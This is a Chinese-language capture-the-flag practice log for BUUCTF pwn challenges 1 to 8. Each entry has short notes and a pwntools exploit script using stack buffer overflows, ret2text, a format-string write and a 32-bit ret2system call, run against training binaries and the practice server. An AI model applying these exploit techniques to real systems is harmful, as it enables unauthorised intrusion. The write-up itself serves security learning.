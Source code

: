 # buuctf刷题记录（1-20题）

## 1 test_nc

略

## 2 rip

```python
from pwn import *
p = process('./pwn1')
p.sendline(b'a'*0xF+b'b'*0x8+p64(0x40118a))
p.interactive()
```

## 3 warmup_csaw_2016

```python
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',28694)
payload = b'a'*72+p64(0x40060d)
p.sendline(payload)
p.interactive()
```

在本地打了半天以为我有问题，最后想起来system执行的是cat flag，不会有shell

## 4 ciscn_2019_n_1

两种思路，一种是覆盖返回地址，一种是覆盖v2

```python
from pwn import *
p = process('./pwn')
retaddr=0x4006BE
payload=b'a'*56+p32(retaddr)
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
p = process('./pwn')
payload = b'a'*0x2c+p64(0x41348000)	# 可以看ida里面，有写v2的偏移
p.sendline(payload)
p.interactive()
```

## 5 pwn1_sctf_2016

限制了32字节的读入，但是后面的操作会把I变为you，留4字节给esp，输入20个I就行

```python
from pwn import *
p = process('./pwn')
payload = b'I'*20+b'a'*4+p32(0x8048F0D)
p.sendline(payload)
p.interactive()
```

*这次学好了，先在本地创建了一个`flag.txt`的文件*

## 6 jarvisoj_level0

ret2text不多说了(用了下自己的模板，有很多不需要)

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('',)
def dbg():
    gdb.attach(p)
    pause()
payload = b'a'*0x80+b'b'*0x8+p64(0x40059A)

p.sendline(payload)

p.interactive()
```

## 7 [第五空间2019 决赛]PWN5

有一个很好用的pwntools语法：

`fmtstr_payload(number,{addr:value})`

- `number`表示偏移字节数，`addr`为你要写入的地址，`value`为你要更改为的数值

这里分析题目可以发现，我们在buf段溢出，然后覆盖`dword_804C044`，再输入相同的覆盖值就行

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()
p.recvuntil('name:')
payload = fmtstr_payload(11,{0x804C044:0x1})
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
```

## 8 jarvisoj_level2

一个32位的题目，和64位有些区别，但不多

**32位`system（）`利用栈传参，不用寄存器**.

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

sys = 0x8048320	# system的地址
binsh = 0x804A024	#binsh的地址
payload = b'a'*0x88+b'b'*0x4+p32(sys)+p32(1)+p32(binsh)
#垃圾数据+覆盖返回地址(32位是4字节）+system地址调用+随意参数填充+binsh填充
p.sendline(payload)
p.interactive()
```

